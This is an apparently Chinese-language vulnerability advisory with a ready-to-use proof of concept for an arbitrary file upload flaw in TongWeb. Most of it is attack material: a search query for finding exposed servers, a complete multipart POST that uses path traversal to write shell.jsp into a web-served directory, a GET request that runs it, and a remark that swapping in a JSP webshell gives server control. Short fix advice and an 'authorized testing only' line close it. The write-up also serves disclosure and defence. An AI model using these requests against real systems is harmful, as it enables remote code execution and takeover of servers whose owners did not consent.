





# 东方通TongWeb upload接口任意文件上传漏洞

## 漏洞描述

东方通TongWeb `/heimdall/deploy/upload` 接口存在任意文件上传漏洞。攻击者通过 `filename` 参数使用 `../../` 路径穿越，将恶意 JSP 文件上传到服务器可访问目录，可能导致远程代码执行，严重威胁系统和数据安全。

## 网络测绘

```
app="东方通-TongWeb"
```

## 漏洞复现



```
POST /heimdall/deploy/upload?method=upload HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: keep-alive
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="file"; filename="../../applications/console/css/shell.jsp"

<% out.println("vulnerable"); %>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```



`filename` 参数使用 `../../` 穿越到 `/console/css/` 目录。上传成功后直接访问：

```
GET /console/css/shell.jsp HTTP/1.1
Host: target
```



即可执行上传的 JSP 文件。将文件内容替换为 JSP Webshell 即可获取服务器控制权限。





## 漏洞修复

1. 关闭互联网暴露面或对接口设置访问权限；
2. 升级至安全版本，对上传文件名做严格校验，禁止路径穿越字符。

> 仅限授权测试。原文中的 `{{randstr_1}}` 为原文模板占位符。
